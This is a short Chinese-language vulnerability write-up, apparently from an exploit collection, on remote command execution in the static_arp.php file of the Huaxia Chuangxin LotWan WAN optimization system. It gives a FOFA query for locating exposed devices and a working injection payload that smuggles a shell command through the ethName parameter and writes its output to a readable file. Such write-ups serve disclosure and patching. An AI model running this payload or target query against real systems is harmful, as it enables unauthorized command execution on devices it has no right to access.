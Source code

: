 # 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## FOFA

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182832800](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191828884.png)

存在漏洞的文件为

```
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![image-20220519182841776](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191828819.png)

再访问 `/acc/bindipmac/cmd.txt`

![image-20220519182859597](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191828666.png)